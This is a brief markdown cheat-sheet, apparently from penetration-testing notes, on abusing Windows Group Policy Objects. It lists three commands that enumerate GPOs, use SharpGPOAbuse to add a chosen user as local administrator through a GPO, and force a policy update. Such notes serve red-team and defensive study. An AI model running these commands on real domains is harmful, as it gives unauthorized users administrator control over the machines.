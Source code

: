 ```yaml
---
title: "GPOs"
date: 2024-8-3
tags: ["GPOs", "Windows", "Group Policy Objects"]
---
```


### Abuse #1: Add local admin

#### 1. List GPOs Name

```console
Get-GPO -All | Select-Object DisplayName
```

#### 2. Add localAdmin

```console
.\SharpGPOAbuse.exe --AddLocalADmin --UserAccount <USER> --GPOName <GPO_NAME>
```

#### 3. Force reload

```console
gpupdate /force
```

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>
